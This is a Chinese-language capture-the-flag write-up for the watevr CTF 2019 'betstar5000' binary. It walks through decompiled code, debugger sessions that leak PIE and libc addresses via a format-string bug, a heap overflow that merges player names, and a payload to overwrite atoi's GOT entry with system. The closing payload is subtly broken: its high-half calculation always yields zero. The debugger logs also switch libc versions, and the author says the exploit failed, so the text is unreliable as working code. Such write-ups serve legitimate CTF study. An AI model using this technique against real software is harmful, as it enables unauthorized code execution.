





# 3.4 Watevr ctf 2019 betstar5000
实验环境

```python
ubuntu 18.04.6 x32
```
首先看下程序

```python
➜  watevrctf19_betstar pwn checksec betstar5000 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[*] '/home/pwn/Desktop/nightmare-master/modules/10-fmt_strings/watevrctf19_betstar/betstar5000'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
开启了`PIE` ,`NX`和`Canary` ,运行程序。

```python
➜  watevrctf19_betstar ./betstar5000
Welcome to the ultimate betting service.
Enter the amount of players: 1
Name: %x.%x.%x
Alright, now let's start!
1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
1
Amount of players playing this round: 1
Each player makes a bet between 0 -> 100, the one who lands closest win the round!
%x.%x.%x's bet: 1
And the winner is *drumroll*: 44e05c.b7f7f5c0.44d8d5
1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
^C
```
使用`IDA`反编译

```cpp
void __usercall __noreturn start(int a1@<eax>, void (*a2)(void)@<edx>)
{
  int v2; // esi
  int v3; // [esp-4h] [ebp-4h] BYREF
  char *retaddr; // [esp+0h] [ebp+0h] BYREF

  v2 = v3;
  v3 = a1;
  __libc_start_main(
    (int (__cdecl *)(int, char **, char **))sub_B17,    //主函数
    v2,
    &retaddr,
    (void (*)(void))sub_F10,
    (void (*)(void))nullsub_1,
    a2,
    &v3);
  __halt();
}

// 主函数
void __cdecl sub_B17(int a1)
{
  unsigned int v1; // eax
  void **v2; // esi
  void **v3; // esi
  char *v4; // eax
  time_t timer; // [esp+0h] [ebp-44h] BYREF
  int v6; // [esp+4h] [ebp-40h]
  int v7; // [esp+8h] [ebp-3Ch]
  int i; // [esp+Ch] [ebp-38h]
  char **v9; // [esp+10h] [ebp-34h]
  int v10; // [esp+14h] [ebp-30h]
  int v11; // [esp+18h] [ebp-2Ch]
  char s[3]; // [esp+1Eh] [ebp-26h] BYREF
  char nptr[3]; // [esp+21h] [ebp-23h] BYREF
  char v14[4]; // [esp+24h] [ebp-20h] BYREF
  unsigned int v15; // [esp+28h] [ebp-1Ch]
  int *v16; // [esp+38h] [ebp-Ch]

  v16 = &a1;
  v15 = __readgsdword(0x14u);
  v1 = time(&timer);
  srand(v1);
  v6 = 0;
  puts("Welcome to the ultimate betting service.");
  printf("%s", "Enter the amount of players: ");
  fgets(s, 3, stdin);
  v7 = atoi(s);
  v9 = (char **)malloc(8 * (v7 + 6));
  for ( i = 0; i < v7; ++i )
  {
    v2 = (void **)&v9[2 * i];
    *v2 = malloc(4u);
    printf("%s", "Name: ");
    fgets(v9[2 * i], 10, stdin);
    strtok(v9[2 * i], "\n");
  }
  printf("%s", "Alright, now let's start!");
  while ( 1 )
  {
    v10 = sub_A25();        // 输出菜单信息
    switch ( v10 )
    {
      case 1:
        sub_831(v9);        // 1. Play a round
        fflush(stdout);
        break;
      case 2:
        sub_7CD(v9, v7);    // 2. View scores
        break;
      case 3:                // 3. Add a latecommer    添加玩家
        if ( v6 == 6 )
        {
          puts("Ughh, stop it. I already added enought players for you. Stop bothering me");
        }
        else
        {
          puts("Welcome new player!");
          printf("%s", "Please enter your name: ");
          v3 = (void **)&v9[2 * v7];
          *v3 = malloc(4u);
          fgets(v9[2 * v7], 20, stdin);
          strtok(v9[2 * v7++], "\n");
          ++v6;
        }
        break;
      case 4:                // 4. Edit player name 修改玩家名字
        puts("Which player index should i change: ");
        fgets(nptr, 5, stdin);
        v11 = atoi(nptr);
        if ( v11 >= 0 && v11 <= v7 )
        {
          printf("Enter new name: ");
          fgets(v9[2 * v11], 18, stdin);
          strtok(v9[2 * v11], "\n");
        }
        break;
      case 5:
        printf("\n%s", "Accept defeat? [Y/N]: ");
        fflush(stdout);
        v4 = fgets(v14, 3, stdin);
        if ( !strcmp(v4, "N\n") )
          puts("Deal with it. >:)");
        puts("Cya later!");
        exit(0);
        return;
      default:
        puts("I think you missed a key there");
        break;
    }
  }
}
```
用户输入的名字首先保存在堆中，然后再到函数`sub_831`中复制到栈上。`a1` 变量是用户输入的名字，然后把`a1` 复制到`dest`变量中（也就是栈上）。



格式化字符串漏洞出现在`sub_831`函数中



通过对程序的分析，我们可以知道程序的主要功能：输入用户名，然后输入`1-100`的值，跟程序生成的值进行判断，靠近的则会赢，并且输出用户名。因为我们能够控制用户名，所以这里可以造成格式化字符串漏洞。


### 漏洞利用
首先我们需要泄露`PIE`和`LIBC` 的地址，然后把`atoi`的`GOT`地址覆盖为`system`函数的地址即可。

先计算出`LIBC`的偏移和`PIE`偏移地址

```cpp
gef➤  pie b 0x9df
gef➤  pie run
Stopped due to shared library event (no libraries added or removed)
Welcome to the ultimate betting service.
Enter the amount of players: 1
Name: %x.%x
Alright, now let's start!
1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
1
Amount of players playing this round: 1
Each player makes a bet between 0 -> 100, the one who lands closest win the round!
%x.%x's bet: 1


Breakpoint 1, 0x004009df in ?? ()
[*] Failed to find objfile or not a valid file format: [Errno 2] No such file or directory: 'system-supplied DSO at 0xb7fd6000'
[+] base address 0x400000
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0xbfffedec  →  "%x.%x"
$ebx   : 0x402540  →  0x00242c (",$"?)
$ecx   : 0x0       
$edx   : 0xb7fb7890  →  0x00000000
$esp   : 0xbfffeda0  →  0xbfffedec  →  "%x.%x"
$ebp   : 0xbfffee38  →  0xbfffee98  →  0x00000000
$esi   : 0x403980  →  0x4039c0  →  "%x.%x"
$edi   : 0x0       
$eip   : 0x4009df  →   call 0x4005a0 <printf@plt>
$eflags: [zero carry parity ADJUST SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x73 $ss: 0x7b $ds: 0x7b $es: 0x7b $fs: 0x00 $gs: 0x33 
───────────────────────────────────────────────────────────────────── stack ────
0xbfffeda0│+0x0000: 0xbfffedec  →  "%x.%x"	 ← $esp
0xbfffeda4│+0x0004: 0x40105c  →  "And the winner is *drumroll*: "
0xbfffeda8│+0x0008: 0xb7fb65c0  →  0xfbad2288
0xbfffedac│+0x000c: 0x4008d5  →   mov ecx, eax
0xbfffedb0│+0x0010: 0x00000001
0xbfffedb4│+0x0014: 0x00000000
0xbfffedb8│+0x0018: 0xb7e1070b  →  <____strtol_l_internal+11> add eax, 0x1a58f5
0xbfffedbc│+0x001c: 0x403980  →  0x4039c0  →  "%x.%x"
─────────────────────────────────────────────────────────────── code:x86:32 ────
     0x4009d8                  sub    esp, 0xc
     0x4009db                  lea    eax, [ebp-0x4c]
     0x4009de                  push   eax
 →   0x4009df                  call   0x4005a0 <printf@plt>
   ↳    0x4005a0 <printf@plt+0>   jmp    DWORD PTR [ebx+0x10]
        0x4005a6 <printf@plt+6>   push   0x8
        0x4005ab <printf@plt+11>  jmp    0x400580
        0x4005b0 <fflush@plt+0>   jmp    DWORD PTR [ebx+0x14]
        0x4005b6 <fflush@plt+6>   push   0x10
        0x4005bb <fflush@plt+11>  jmp    0x400580
─────────────────────────────────────────────────────── arguments (guessed) ────
printf@plt (
   [sp + 0x0] = 0xbfffedec → "%x.%x"
)
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "betstar5000", stopped 0x4009df in ?? (), reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4009df → call 0x4005a0 <printf@plt>
[#1] 0x400ccb → add esp, 0x10
[#2] 0xb7df6fa1 → __libc_start_main(main=0x400b17, argc=0x1, argv=0xbfffef44, init=0x400f10, fini=0x400f70, rtld_fini=0xb7fe7970 <_dl_fini>, stack_end=0xbfffef3c)
[#3] 0x4006c1 → hlt 
────────────────────────────────────────────────────────────────────────────────
gef➤  x/s 0x40105c
0x40105c:	"And the winner is *drumroll*: "
gef➤  x/x 0xb7fb65c0
0xb7fb65c0 <_IO_2_1_stdin_>:	0x88
gef➤  c
Continuing.
And the winner is *drumroll*: 40105c.b7fb65c0
^C
Program received signal SIGINT, Interrupt
gef➤  vmmap 
[ Legend:  Code | Heap | Stack ]
Start      End        Offset     Perm Path
0x400000 0x402000 0x000000 r-x /home/pwn/Desktop/nightmare-master/modules/10-fmt_strings/watevrctf19_betstar/betstar5000
0x402000 0x403000 0x001000 rw- /home/pwn/Desktop/nightmare-master/modules/10-fmt_strings/watevrctf19_betstar/betstar5000
0x403000 0x425000 0x000000 rw- [heap]
0xb7dde000 0xb7fb3000 0x000000 r-x /lib/i386-linux-gnu/libc-2.27.so
0xb7fb3000 0xb7fb4000 0x1d5000 --- /lib/i386-linux-gnu/libc-2.27.so
0xb7fb4000 0xb7fb6000 0x1d5000 r-- /lib/i386-linux-gnu/libc-2.27.so
0xb7fb6000 0xb7fb7000 0x1d7000 rw- /lib/i386-linux-gnu/libc-2.27.so
0xb7fb7000 0xb7fba000 0x000000 rw- 
0xb7fd1000 0xb7fd3000 0x000000 rw- 
0xb7fd3000 0xb7fd6000 0x000000 r-- [vvar]
0xb7fd6000 0xb7fd8000 0x000000 r-x [vdso]
0xb7fd8000 0xb7ffe000 0x000000 r-x /lib/i386-linux-gnu/ld-2.27.so
0xb7ffe000 0xb7fff000 0x025000 r-- /lib/i386-linux-gnu/ld-2.27.so
0xb7fff000 0xb8000000 0x026000 rw- /lib/i386-linux-gnu/ld-2.27.so
0xbffdf000 0xc0000000 0x000000 rw- [stack]

```
从上面可以看出泄露的地址`0x40105c`对应的是字符串`"And the winner is *drumroll*: "` ，第二个则为`libc stdin` 。计算得出偏移量为：

```cpp
0x40105c - 0x400000 = 0x105c        // PIE offset
0xb7fb65c0 - 0xb7dde000 = 0x1d85c0    // libc offset
```


程序对用户名长度进行了截断，导致我们无法输入过长的字符串，这样对漏洞利用存在限制。

```cpp
➜  watevrctf19_betstar ./betstar5000 
Welcome to the ultimate betting service.
Enter the amount of players: 0
Alright, now let's start!
1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
3
Welcome new player!
Please enter your name: 0000000000000000        // 每个的长度都是16

1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
3
Welcome new player!
Please enter your name: 1111111111111111

1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
3
Welcome new player!
Please enter your name: 2222222222222222

1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
3
Welcome new player!
Please enter your name: 3333333333333333 

1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
2
Player 000000000000 currently has 0 points.        // 这里被截断了
Player 111111111111 currently has 0 points.
Player 222222222222 currently has 0 points.
Player 3333333333333333 currently has 0 points.    // 最后一个没有截断

1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game

```
我们再`GDB`中来查看输入的用户名在堆中是如何存放的：

```cpp
gef➤  search-pattern 000000000
[+] Searching '000000000' in memory
[+] In '[heap]'(0x403000-0x425000), permission=rw-
  0x4039c0 - 0x4039c9  →   "000000000[...]" 
[+] In '/lib/i386-linux-gnu/libc-2.27.so'(0xb7dde000-0xb7fb3000), permission=r-x
  0xb7f5745c - 0xb7f5747c  →   "0000000000000000
gef➤  x/40x 0x4039b0
0x4039b0:	0x00000000	0x00000000	0x00000000	0x00000011
0x4039c0:	0x30303030	0x30303030	0x30303030	0x00000011    // 用户名1
0x4039d0:	0x31313131	0x31313131	0x31313131	0x00000011    // 用户名2
0x4039e0:	0x32323232	0x32323232	0x32323232	0x00000011    // 用户名3
0x4039f0:	0x33333333	0x33333333	0x33333333	0x33333333    // 用户名4
0x403a00:	0x00000000	0x00000000	0x00000000	0x00000000
0x403a10:	0x00000000	0x00000000	0x00000000	0x00000000
0x403a20:	0x00000000	0x00000000	0x00000000	0x00000000
0x403a30:	0x00000000	0x00000000	0x00000000	0x00000000
0x403a40:	0x00000000	0x00000000	0x00000000	0x00000000
```
可以看到我们输入的前三个用户名在结尾拼接了一个`\x11` 然后使用`\x00`截断了。如果我们输入的是17个字符串，那么就可以造成溢出，覆盖下一个用户名的一个字节，并且把`\x00`覆盖到下一个堆块中。这里我们可以使用编辑玩家用户名来合并两个用户名，从而形成一个32为长度的用户名。

这里修改第三个和第四个用户名的名字

```cpp
1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
4
Which player index should i change: 
2
Enter new name: 44444444444444444

1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
I think you missed a key there

1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
4
Which player index should i change: 
3
Enter new name: 55555555555555555

1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
I think you missed a key there

1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
^C
Program received signal SIGINT, Interrupt.
0xb7fd9cf5 in __kernel_vsyscall ()
[*] gdb is already running. Restart process.
[+] base address 0x400000
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xfffffe00
$ebx   : 0x0       
$ecx   : 0x00403410  →  "55555555555555555"
$edx   : 0x400     
$esp   : 0xbfffed58  →  0xbfffeda8  →  0x00000003
$ebp   : 0xbfffeda8  →  0x00000003
$esi   : 0xb7fbb5a0  →  0xfbad2288
$edi   : 0xb7fbbd60  →  0xfbad2a84
$eip   : 0xb7fd9cf5  →  <__kernel_vsyscall+9> pop ebp
$eflags: [carry PARITY adjust ZERO sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0073 $ss: 0x007b $ds: 0x007b $es: 0x007b $fs: 0x0000 $gs: 0x0033 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xbfffed58│+0x0000: 0xbfffeda8  →  0x00000003	 ← $esp
0xbfffed5c│+0x0004: 0x00000400
0xbfffed60│+0x0008: 0x00403410  →  "55555555555555555"
0xbfffed64│+0x000c: 0xb7eddc43  →  <__read_nocancel+25> pop ebx
0xbfffed68│+0x0010: 0xb7fbb000  →  0x001b2db0
0xbfffed6c│+0x0014: 0xb7e72277  →  <_IO_file_underflow+295> add esp, 0x10
0xbfffed70│+0x0018: 0x00000000
0xbfffed74│+0x001c: 0x00403410  →  "55555555555555555"
─────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
   0xb7fd9cef <__kernel_vsyscall+3> mov    ebp, esp
   0xb7fd9cf1 <__kernel_vsyscall+5> sysenter 
   0xb7fd9cf3 <__kernel_vsyscall+7> int    0x80
 → 0xb7fd9cf5 <__kernel_vsyscall+9> pop    ebp
   0xb7fd9cf6 <__kernel_vsyscall+10> pop    edx
   0xb7fd9cf7 <__kernel_vsyscall+11> pop    ecx
   0xb7fd9cf8 <__kernel_vsyscall+12> ret    
   0xb7fd9cf9                  nop    
   0xb7fd9cfa                  nop    
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "betstar5000", stopped, reason: SIGINT
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0xb7fd9cf5 → __kernel_vsyscall()
[#1] 0xb7eddc43 → __read_nocancel()
[#2] 0xb7e72277 → _IO_new_file_underflow(fp=0xb7fbb5a0 <_IO_2_1_stdin_>)
[#3] 0xb7e73247 → __GI__IO_default_uflow(fp=0xb7fbb5a0 <_IO_2_1_stdin_>)
[#4] 0xb7e7303c → __GI___uflow(fp=0xb7fbb5a0 <_IO_2_1_stdin_>)
[#5] 0xb7e672a1 → __GI__IO_getline_info(fp=0xb7fbb5a0 <_IO_2_1_stdin_>, buf=0xbfffeec8 "(\357\377\277", n=0x3, delim=0xa, extract_delim=0x1, eof=0x0)
[#6] 0xb7e673de → __GI__IO_getline(fp=0xb7fbb5a0 <_IO_2_1_stdin_>, buf=0xbfffeec8 "(\357\377\277", n=0x3, delim=0xa, extract_delim=0x1)
[#7] 0xb7e661fd → _IO_fgets(buf=0xbfffeec8 "(\357\377\277", n=0x4, fp=0xb7fbb5a0 <_IO_2_1_stdin_>)
[#8] 0x400ae9 → add esp, 0x10
[#9] 0x400c8f → mov DWORD PTR [ebp-0x30], eax
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  search-pattern 0000000000
[+] Searching '0000000000' in memory
[+] In '[heap]'(0x403000-0x424000), permission=rw-
  0x403850 - 0x40385a  →   "0000000000[...]" 
[+] In '/lib/i386-linux-gnu/libc-2.23.so'(0xb7e08000-0xb7fb8000), permission=r-x
  0xb7f5ed7c - 0xb7f5ed8c  →   "0000000000000000" 
gef➤  x/40x 0x403840
0x403840:	0x00000000	0x00000000	0x00000000	0x00000011
0x403850:	0x30303030	0x30303030	0x30303030	0x00000011
0x403860:	0x31313131	0x31313131	0x31313131	0x00000011
0x403870:	0x34343434	0x34343434	0x34343434	0x34343434
0x403880:	0x35353535	0x35353535	0x35353535	0x35353535
0x403890:	0x00000035	0x00000000	0x00000000	0x00000000
0x4038a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x4038b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x4038c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x4038d0:	0x00000000	0x00000000	0x00000000	0x00000000

```
可以看到此时第三个用户名和第四个用户名之间没有了`\x00`截断符，我们输出结果看看如何。

```cpp
gef➤  c
Continuing.
2
Player 000000000000 currently has 0 points.
Player 111111111111 currently has 0 points.
Player 444444444444444455555555555555555 currently has 0 points.
Player 55555555555555555 currently has 0 points.
```
成功合并了第三个和第四个用户名。

接下来我们要计算格式化字符串的偏移量，这里一个一个的来计算即可，经过计算可以得知偏移量为19



我们还要计算一下要替换覆盖掉的`atoi`函数相对`libc`的偏移地址：`0x2584`




最后综合一下目前所得到的信息：

```cpp
pieOffset = 0x105c
libcOffset = 0x1d85c0
pieBase = leak_pie - pieOffset        // leak_pie 是泄露出来的字符串的地址
libcBase = leak_stdin - libcOffset    // leak_stdin 是泄露出来的stdin的地址
atoi = pieBase + 0X2584
system = libcBase + libc.symbols['system']
```
那么就可以写出漏洞利用的payload了：

```cpp
x = (system & 0xffff) - 8    // 这里把 system 的低两位地址写入 atoi 地址的低两位，要扣除地址本身8字节的长度
// (system & 0xffff) - 8 + 8 刚好等于system 低两位的地址

y = ((system & 0x0000ffff) >> 16) - (system & 0xffff)    // 写入高两位的地址，要扣除前面%{X}x所输出的值，刚好是(system & 0xffff) 
payload = p32(atoi) + p32(atoi+2) + "%" + str(x) + "x%19$n" + "%x" + str(y) + "x%20$n"
```


因为测试环境的原因，`pie`的基地址中包含`\x00`，导致输出的时候截断了，无法造成有效的利用



